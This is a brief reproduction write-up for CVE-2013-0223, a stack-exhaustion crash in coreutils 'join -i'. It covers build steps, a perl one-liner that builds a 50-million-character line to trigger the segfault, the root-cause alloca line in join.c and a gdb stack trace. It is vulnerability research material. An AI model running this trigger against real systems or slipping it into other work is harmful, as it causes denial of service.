 # CVE-2013-0223

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0223/coreutils-8.4-patched.tar.gz

tar -xvf coreutils-8.4-patched.tar.gz
cd coreutils-8.4
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
perl -e 'print "1","A"x50000000,"\r\n\r\n"' > /tmp/test.txt
join -i /tmp/test.txt /tmp/test.txt
```

## PoCs

[(CVE-2013-0223) VUL-1: CVE-2013-0223: coreutils: segmentation fault in "join -i" with long line input](https://bugzilla.novell.com/show_bug.cgi?id=798541)

## Vulnerability Details & Patch

### Root Cause

```
join.c:495

	copy[i] = alloca (len[i] + 1);
```

### Stack Trace

```
(gdb) info stack
#0  0x0804a039 in keycmp (line1=<value optimized out>, line2=<value optimized out>, jf_1=0, jf_2=0) at join.c:500
#1  0x0804b3d4 in system_join (argc=4, argv=0xbf9a2214) at join.c:852
#2  main (argc=4, argv=0xbf9a2214) at join.c:1354
```

## References
